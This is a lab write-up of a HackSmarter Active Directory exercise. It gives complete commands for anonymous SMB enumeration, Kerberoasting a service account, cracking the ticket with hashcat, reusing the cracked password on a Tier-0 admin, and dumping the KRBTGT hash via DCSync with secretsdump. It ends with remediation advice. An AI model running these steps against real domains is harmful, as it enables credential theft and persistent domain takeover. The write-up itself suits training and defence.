





# MartiniAD: HackSmarter (Active Directory)

**Platform:** HackSmarter  **Difficulty:** Medium/Hard  **Category:** Active Directory / Full Domain Compromise
**Scope:** Internal black-box pentest (VPN access, **no credentials** provided)
**Domain:** `dry.martini.bars`  ·  **DC:** `10.1.65.120`
**Objective:** Recover the **KRBTGT NT hash** (full domain compromise).

> **Note on redaction:** Public write-up of a paid-platform lab. Recovered secrets (passwords, Kerberos hashes, the KRBTGT hash itself) are masked as `‹redacted›`. Methodology and commands are complete. *(Verify HackSmarter's publishing policy before making public; I can restore the literal values if their terms allow.)*

## Executive Summary & Methodology
This was a true black-box internal engagement: VPN access to the network and nothing else, no starting credentials. The entire compromise was built from **anonymous enumeration and a single fatal identity mistake**: a Tier-0 domain admin account reused the exact password of a Kerberoastable service account. That one reuse collapsed the distance between "unauthenticated on the network" and "own the domain." The chain: fingerprint the Domain Controller, enumerate users anonymously, Kerberoast a service account, crack it offline, then discover the password is reused on the Tier-0 admin, from which the KRBTGT hash (and thus permanent domain persistence) falls out.

**Attack chain at a glance:**
`Anonymous recon → SMB user enumeration → identify ATHENA_SVC + athena.t0 (Tier-0) → Kerberoast ATHENA_SVC → crack → password reuse → athena.t0 (Domain Admin) → DCSync → KRBTGT hash`

---

## Phase 1: Reconnaissance (Fingerprinting the Domain Controller)
With only network access, I started with a fast port sweep using RustScan, piping results into nmap for service detection:

```bash
rustscan -a 10.1.65.120 -- -A -Pn
```

*(The `--` forwards everything after it to nmap; `-A` runs service/version + script scanning, and `-Pn` skips host-discovery ping in case ICMP is filtered.)*

The open-port profile is an unmistakable **Active Directory Domain Controller**:

```text
53/tcp    domain            88/tcp    kerberos-sec
135/tcp   msrpc             139/tcp   netbios-ssn
389/tcp   ldap              445/tcp   microsoft-ds
464/tcp   kpasswd5          593/tcp   http-rpc-epmap
636/tcp   ldapssl           3268/9    globalcatLDAP(ssl)
3389/tcp  ms-wbt-server     5985/tcp  wsman (WinRM)
9389/tcp  adws
```

Kerberos (88), LDAP (389/636), Global Catalog (3268/9), kpasswd (464) and ADWS (9389) together confirm the DC and immediately suggest the AD attack surface: Kerberoasting, AS-REP roasting, LDAP enumeration, and WinRM for later access.



---

## Phase 2: Anonymous Enumeration (Harvesting Usernames)
No credentials, so I tested what the DC leaks anonymously. SMB (445) allowed a null session against some shares (though `ADMIN$` was denied), and netexec pulled a user list without authentication:

```bash
# anonymous share + user enumeration
netexec smb 10.1.65.120 -u '' -p '' --shares
netexec smb 10.1.65.120 -u '' -p '' --users
```

Two accounts stood out in the results:
* **`ATHENA_SVC`**: a service account (SPN-bearing service accounts are prime Kerberoast targets).
* **`athena.t0`**: the `.t0` suffix is a **Tier-0** naming convention, marking a Domain-Admin-level account. A clear high-value objective.



### Error & Correction 1: BloodHound Collection Stalled
* **The Attempt:** I tried to map the domain with BloodHound using a low-privilege credential set:
  ```bash
  bloodhound-python -d dry.martini.bars -u mprice -p '‹redacted›' -ns 10.1.65.120 -c all --zip
  ```
* **The Problem:** The collection didn't return a usable graph in this environment.
* **The Pivot:** Rather than get stuck on tooling, I fell back to a technique that only needs the domain reachable, **Kerberoasting**, targeting the service account identified above. Adaptability over dependence on one tool.

---

## Phase 3: Kerberoasting `ATHENA_SVC`
Using Impacket to request the service ticket (TGS) for the SPN account and write it out for offline cracking:

```bash
impacket-GetUserSPNs dry.martini.bars/<known_user> -dc-ip 10.1.65.120 -request -outputfile kerb_hashes.txt
```

This yielded a `$krb5tgs$23$*ATHENA_SVC$...` ticket. Cracked offline with hashcat:

```bash
hashcat -m 13100 kerb_hashes.txt /usr/share/wordlists/rockyou.txt
# $krb5tgs$23$*ATHENA_SVC$DRY.MARTINI.BARS$...  :  ‹redacted plaintext›
```

The service account's password fell to `rockyou`. A weak password on an SPN account is exactly what Kerberoasting punishes.



---

## Phase 4: The Fatal Flaw (Password Reuse to Tier-0)
First I validated the cracked service-account credentials, which unlocked a wealth of domain detail:

```bash
nxc smb 10.1.65.120 -u athena_svc -p '‹redacted›' --users --groups --shares --pass-pol
```

Then the decisive hunch: would the **Tier-0 admin** reuse the service account's password? I tested it:

```bash
nxc smb 10.1.65.120 -u athena.t0 -p '‹redacted›'
# (Pwn3d!)
```

**`Pwn3d!`** confirmed `athena.t0` used the identical password. A Domain-Admin-tier account and a service account sharing one credential is a catastrophic failure, and it handed over the domain.



---

## Phase 5: Domain Compromise (DCSync for the KRBTGT Hash)
As a Domain Admin, `athena.t0` holds directory-replication rights, enabling **DCSync**: impersonating a DC to pull password hashes straight from NTDS, including the crown jewel, **KRBTGT**:

```bash
impacket-secretsdump dry.martini.bars/athena.t0:'‹redacted›'@10.1.65.120 -just-dc-user krbtgt
```

```text
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:‹redacted-NT-hash›:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:‹redacted›
krbtgt:aes128-cts-hmac-sha1-96:‹redacted›
```

**Objective achieved: the KRBTGT NT hash is recovered.** This is the deepest possible level of AD compromise: with the KRBTGT hash an attacker can forge **Golden Tickets**, minting valid Kerberos tickets for *any* user (including Domain Admins) at will. Even resetting compromised user passwords won't evict the attacker until KRBTGT is rotated **twice**.



---

## Business & Operational Risk Impact
* **Password reuse across privilege tiers (critical root cause):** A Tier-0 admin sharing a password with a service account is the single failure that lost the domain. Tier-0 accounts must have unique, long, randomly generated passwords, and tiered administration must be enforced so service-account compromise can never reach admin identities.
* **Kerberoastable service account with a weak password:** `ATHENA_SVC` had an SPN and a crackable password. Use Group Managed Service Accounts (gMSAs) or 25+ character random passwords so offline cracking is infeasible.
* **Anonymous enumeration exposure:** Null-session user and share enumeration handed an attacker the target list for free. Restrict anonymous LDAP/SMB access and RID cycling.
* **KRBTGT exposure = total, persistent compromise:** Recovery requires a **double KRBTGT password reset** plus full incident response. Monitor for DCSync/replication from non-DC hosts (a high-fidelity detection).
* **Business impact:** With the KRBTGT hash, the attacker owns every identity and system in the domain indefinitely and invisibly. For a company already recovering from a breach, this represents a complete failure of the containment the pentest was meant to validate.
